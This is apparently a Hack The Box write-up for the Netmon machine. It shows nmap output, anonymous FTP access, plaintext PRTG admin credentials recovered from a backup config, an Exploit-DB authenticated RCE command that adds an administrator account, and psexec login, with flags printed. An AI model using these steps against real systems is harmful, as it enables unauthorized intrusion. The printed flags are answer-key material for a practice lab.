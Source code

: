 ### IP
`10.10.10.152`

# Recon

### nmap
`nmap -sC -sV Netmon.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-22 02:53 EST
Nmap scan report for 10.10.10.152
Host is up (0.049s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m26s, deviation: 0s, median: 3m25s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-22T07:57:26
|_  start_date: 2020-11-22T07:55:18

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.26 seconds

```
* Looks like nmap found an ftp server and automatically showed us the directories
* We also have a web server running Indy httpd
* We also have smb running

# Exploitation

### ftp
* This one was super easy. 
* We can log in to the server with `ftp 10.10.10.152`. 
	We can log in anonymously with the `anonymous` username and no password
* Once we cd to `/Users/Public`
* Now, we can download the file with `get user.txt`. 
* After that, we can just cat it on our own machine to get the user flag: `dd58ce67b49e15105e88096c8d9255a5`

### PRTG
* I did some digging and found [this](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) reddit post, which explains that old version of PRTG store credentials in plaintext at `C:\ProgramData\Paessler\PRTG Network Monitor\PRTG Configuration.old.bak`

	* Downloading that file on the ftp server and runnning get on it will give us a file, which when examined a bit gives us this: 
```xml
   </dbcredentials>
            <dbpassword>
	      <!-- User: prtgadmin -->
	      PrTg@dmin2018
            </dbpassword>
            <dbtimeout>
```
* Username: `prtgadmin`
* Password: `PrTg@dmin2018`

* Unfortunately, this password didn't work so I tried out a couple other years for the password
* `PrTg@dmin2019` worked
	* Strangely it didn't work for me at first and I was getting really frustrated, but when I came back the next day (and I assume the machine was reset), it worked. So maybe reset the machine if you run into the same issue

* Now we can log in!


### privesc
* Now that we have the login credentials, I remembered that searchsploit had a module for authenticated remote code execution
* For some reason the one on my computer wasn't working, so I ended up copying the code from [here](https://www.exploit-db.com/exploits/46527) to `exploit.sh`
* It turns out we have to have some cookie information for the exploit to work. I just went into the `network` section of inspect element to get it.
* Here's the complete command: `./exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.1911846024.1606031704; _gid=GA1.4.667691852.1606031704; OCTOPUS1813713946=e0ExRkMzQzcxLUY3MzAtNDJBMS1BNEU2LTBDRjFDREExMEUzRn0;"`
* When that finishes executing, it gives the following output:
```

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```
* A user in the administrators group with the username `pentest` and the password `P3nT3st!`
* After what must have been an hour of fiddling with tools, I finally figured out how to log in with the credentials
	* [this](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/) blog helped out a lot
* A script called `psexec` lets us log in with the command `python3 psexec.py pentest:'P3nT3st!'@10.10.10.152`
* Once in the machine, we can cd over to '\Users\Administrator\Desktop` and print the file with `more root.txt`
* The root flag is `3018977fb944bf1878f75b879fba67cc`
  
# Notes:
* I suggest reading [this](https://blog.rapid7.com/2013/03/09/psexec-demystified/) for a better understanding of psexec. It helped me a lot
